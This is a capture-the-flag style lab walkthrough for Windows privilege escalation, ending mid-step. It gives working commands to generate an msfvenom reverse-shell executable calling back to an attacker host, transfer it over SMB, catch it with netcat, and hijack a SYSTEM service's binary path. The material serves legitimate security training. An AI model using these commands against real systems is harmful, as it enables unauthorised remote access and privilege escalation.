 # Windows PrivEsc[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#windows-privesc "Permalink to this heading")

This room is excellent for reinforcement of the most common Windows privilege escalation techniques.

## Generate a reverse shell executable[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#generate-a-reverse-shell-executable "Permalink to this heading")

On Kali, generate a reverse shell executable (`reverse.exe`) using `msfvenom`. Update the `LHOST` IP address accordingly:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

Transfer the `reverse.exe` file to the `C:\PrivEsc` directory on Windows. There are many ways you could do this, and the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

On Windows (update the IP address with your Kali IP):

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

Test the reverse shell by setting up a netcat listener on Kali:

sudo nc -nvlp 53

Then run the `reverse.exe` executable on Windows and catch the shell:

C:\PrivEsc\reverse.exe

The `reverse.exe` executable will be used in many of the tasks, so do not delete it!

## Service exploits - Insecure service permissions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#service-exploits-insecure-service-permissions "Permalink to this heading")

Use `accesschk.exe` to check the `user` account’s permissions on the `daclsvc` service:

C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

Note that the “user” account has the permission to change the service config (`SERVICE_CHANGE_CONFIG`).

Query the service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`):

sc qc daclsvc

Modify the service config and set the `BINARY_PATH_NAME` (`binpath`) to the `reverse.exe` executable you created:
